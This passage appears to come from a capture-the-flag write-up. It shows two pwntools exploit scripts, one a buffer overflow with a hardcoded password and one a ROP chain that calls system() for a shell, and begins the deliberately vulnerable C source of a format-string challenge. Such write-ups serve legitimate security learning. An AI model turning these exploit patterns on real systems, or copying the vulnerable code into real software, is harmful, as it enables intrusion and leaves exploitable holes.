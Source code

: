 Exploit:

```
from pwn import *

p = remote("192.168.178.95", 1024)
print(p.recvline())

raw_input("attach gdb")

padding = "A"*cyclic_find("aclaacma")
RET = p64(0x401016)
RIP = p64(0x401254)

p.sendline("sUp3r_S3cr3T_P4s5w0rD\x00"+padding+RET+RIP)

p.interactive()
```

### Rope

As simple as it can get, Rope chain (that's it)
Exploit:

```
from pwn import *

# r = process("./bof")
r = remote("localhost", 5012)
pause()

RET = 0x0000000000400486
SHELL = 0x00000000004006a4
SYSTEM = 0x4004b0
POP_RDI_RET = 0x0000000000400683

PAYLOAD = b"A" * 40
PAYLOAD += p64(RET) + p64(POP_RDI_RET) + p64(SHELL) + p64(SYSTEM)
r.sendline(PAYLOAD)

r.interactive()
```

### Secret

App is vulnerable to format string attack

Code:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define SIZE 0x100

int main()
{
  char* flagBuf;
  char buf[20];
  int fd;

  flagBuf = malloc(SIZE);
  fd = open("flag", 0);
  read(fd, flagBuf, SIZE);

  setbuf(stdout, NULL);
```